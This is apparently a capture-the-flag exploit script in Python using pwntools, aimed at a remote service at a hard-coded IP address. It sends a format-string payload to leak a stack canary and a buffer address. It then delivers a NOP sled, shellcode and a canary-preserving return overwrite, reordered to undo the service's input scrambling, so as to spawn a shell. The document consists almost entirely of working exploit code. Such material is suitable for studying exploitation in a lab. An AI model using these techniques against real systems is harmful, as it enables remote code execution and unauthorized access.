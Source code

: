 ```py
# p = ELF.process()
p = remote("34.76.206.46", 10003)

def scramble(x):
    ptr = 0
    name = x[ptr:ptr+n]
    ptr += n
    admno = x[ptr:ptr+an]
    ptr += an
    branch = x[ptr:ptr+b]
    ptr += b
    university = x[ptr:ptr+u]
    ptr += u
    address = x[ptr:ptr+a]
    ptr += a
    
    new_x = name[:n//2] + branch[:b//3] + admno[:an//3] + university[:u//2] + address[:a//10] + branch[b//3:] + name[n//2:] + address[a//10:a//10 + a//10] + university[u//2:u//2+u//4] + admno[an//3:] + address[a//10+a//10:] + university[u//2+u//4:] + x[ptr:]
    return new_x

def fix_payload(n, an, b, u, a, payload):
    s = n+an+b+u+a
    x = []
    for i in range(s):
        x.append(i)
    x = scramble(x)
    new_payload = [0]*len(payload)
    for i in range(len(x)):
        new_payload[x[i]] = payload[i]
    new_payload[s:] = payload[s:]
    return new_payload

payload = b"%7$p%77$p"
p.recvuntil(b"[yes/no]?\n")
p.send(payload)

recvd = p.recvline().strip().decode()
BUFFER = int("0x" + recvd.split("0x")[1], 16)
CANARY = int("0x" + recvd.split("0x")[-1], 16)

log.info(f"canary -> {hex(CANARY)}")
log.info(f"buffer -> {hex(BUFFER)}")

p.sendlineafter(b"correct?\n", b"yes")
p.recvuntil(b"input is less\n")
n, an, b, u, a = [int(x) for x in re.findall("\d+", p.recvline().decode())]
s = n+an+b+u+a

sb.run("./shellcode_compile.sh shellcode.s", shell=True)
shellcode = open("shellcode.bin","rb").read().strip()
sb.run("rm -rf ./shellcode.bin", shell=True)
# shellcode = asm(shellcraft.execve(path="/bin/sh"))
payload = b"\x90"*50 + shellcode
payload += b"\x00"*(520-len(payload))
payload += p64(CANARY)
payload += b"a"*8
payload += p64(BUFFER)

payload = fix_payload(n, an, b, u, a, payload)
payload = bytearray(payload)
p.sendline(payload)

```